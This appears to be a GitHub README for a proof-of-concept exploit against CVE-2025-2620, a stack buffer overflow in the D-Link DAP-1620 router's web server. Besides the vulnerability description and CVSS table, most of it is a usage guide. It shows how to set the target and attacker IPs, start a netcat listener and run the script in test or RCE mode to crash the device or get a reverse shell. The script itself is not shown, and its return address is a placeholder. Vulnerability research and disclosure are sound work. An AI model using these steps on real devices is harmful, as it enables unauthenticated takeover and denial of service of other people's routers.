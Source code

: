 # CVE-2025-2620 Proof-of-Concept Exploit

## Overview
This repository contains an advanced proof-of-concept (PoC) exploit for **CVE-2025-2620**, a critical **stack-based buffer overflow** vulnerability discovered in the **D-Link DAP-1620** router running firmware version **1.03**. This vulnerability allows **unauthenticated remote attackers** to crash the router’s web server (**Denial-of-Service, DoS**) and potentially execute arbitrary code (**Remote Code Execution, RCE**).

The purpose of this project is to **demonstrate exploit development skills**.

## Vulnerability Details

### CVE Description
CVE-2025-2620 affects the **D-Link DAP-1620** router’s **mod_graph_auth_uri_handler** function, specifically within the `/storage` endpoint. The vulnerability is caused by **improper bounds checking**, allowing an attacker to send a large input that exceeds the allocated buffer size, leading to a **stack-based buffer overflow**.

### **Impact**
- **Denial-of-Service (DoS)**: Crashes the router’s HTTP server, making it unresponsive until a reboot.
- **Remote Code Execution (RCE)**: Attackers can **overwrite the return address** and execute arbitrary code on the router’s **MIPS-based architecture**.
- **No Authentication Required**: The vulnerability can be triggered remotely without credentials, increasing its severity.

### **Technical Breakdown**

The vulnerable function processes an authentication parameter (`auth`) from HTTP requests:

```c
void mod_graph_auth_uri_handler(char *input) {
    char buffer[512];  // Fixed-size stack buffer
    strcpy(buffer, input);  // No length check, causes overflow
    // Process authentication...
}
```

An attacker sending an oversized payload (e.g., 1024+ bytes) **overwrites adjacent memory**, including the **function’s return address**, potentially leading to **code execution**.

### **CVSS v3.1 Score: 9.8 (Critical)**
| Metric                  | Value  |
|------------------------|--------|
| **Attack Vector**      | Network |
| **Attack Complexity**  | Low |
| **Privileges Required** | None |
| **User Interaction**   | None |
| **Confidentiality Impact** | High |
| **Integrity Impact**   | High |
| **Availability Impact** | High |

## Affected Devices

The **D-Link DAP-1620** is a **Wi-Fi range extender** with the following specifications:

- **CPU**: Realtek RTL8197F (MIPS 24Kc, ~600 MHz)
- **RAM**: 64 MB
- **Flash**: 16 MB
- **Wi-Fi**: Dual-band 802.11ac
- **Firmware**: **1.03** (confirmed vulnerable)

Other **D-Link routers/extenders** with similar firmware **may also be affected**.

## Disclosure Timeline

- **March 22, 2025** – CVE-2025-2620 published on **NVD/MITRE**.
- **March 22, 2025** – This PoC developed and tested.
- **March 22, 2025** – No official patch from D-Link as of this date.

## PoC Exploit Details

### **Features**
  **Combined PoC** – Includes both buffer overflow testing and RCE exploit.  
  **Stack-based buffer overflow test** – Identifies vulnerable routers.  
  **Full remote code execution (RCE) exploit** – Spawns a reverse shell.  
  **Configurable payload size & return address** – Adaptable for different router models.  
  **Enhanced Debugging** – Logs crash offsets to refine exploit parameters.  

## Installation & Usage

### **Step 1: Clone the Repository**
```bash
git clone https://github.com/Otsmane-Ahmed/CVE-2025-2620-poc.git
cd CVE-2025-2620-poc
```

### **Step 2: Install Dependencies**
Ensure you have Python3 and pwntools installed:
```bash
pip install pwntools
```

### **Step 3: Configure the Exploit**
Modify the `CVE-2025-2620_poc.py` script:

#### **Set the router’s IP:**
```python
TARGET_IP = "192.168.0.1"  # change to match your router
```

#### **Set your attack machine’s IP:**
```python
ATTACKER_IP = "192.168.0.100"  # change to your local IP
ATTACKER_PORT = 4444  # change if needed
```

#### **Adjust buffer size if needed:**
```python
BUFFER_SIZE = 8000  # Increase if the router does not crash
```

#### **Find EIP offset and set return address:**
```python
OFFSET = 512  # Adjust based on crash analysis
RET_ADDR = struct.pack("<I", 0x12345678)  # Replace with real return address
```

### **Step 4: Start a Listener**
Before running the exploit, start a Netcat listener:
```bash
nc -lvnp 4444
```

### **Step 5: Run the Exploit**

#### **Run the combined PoC (both tests included):**
```bash
python3 CVE-2025-2620 poc.py --mode auto
```

#### **Run only the buffer overflow test:**
```bash
python3 CVE-2025-2620 poc.py --mode test
```

#### **Run only the RCE exploit:**
```bash
python3 CVE-2025-2620 poc.py --mode rce
```




 **Developed with  by Otsmane Ahmed**  

